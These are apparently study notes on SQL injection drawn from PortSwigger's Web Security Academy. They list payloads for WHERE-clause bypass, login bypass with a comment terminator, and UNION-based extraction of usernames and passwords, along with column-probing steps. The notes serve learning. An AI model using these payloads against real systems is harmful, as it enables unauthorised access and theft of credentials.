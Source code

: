 https://portswigger.net/web-security/sql-injection

### WHERE Clause
`SELECT * FROM products WHERE category = '{}' AND released = 1`  
Attack (GET URL): ?category='+OR+1%3d1--  

### Login Bypass (Subvert Logic)
`SELECT * FROM users WHERE username = '{}' AND password = '{}'`  
Attack (POST Method): username=administrator'--&password=123  

### UNION Attacks
**Conditions**  
1. Both queries must return same number of columns  
`ORDER BY {index number}`  
2. Compatible data types in each column  
`UNION SELECT NULL,'a',NULL,NULL`  
<br>
**Techniques**  
1. Retrieving multiple values within a single column (concatenation)  
`UNION SELECT NULL,username||'~'||password FROM users`  

### Examine Database


[Syntax Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
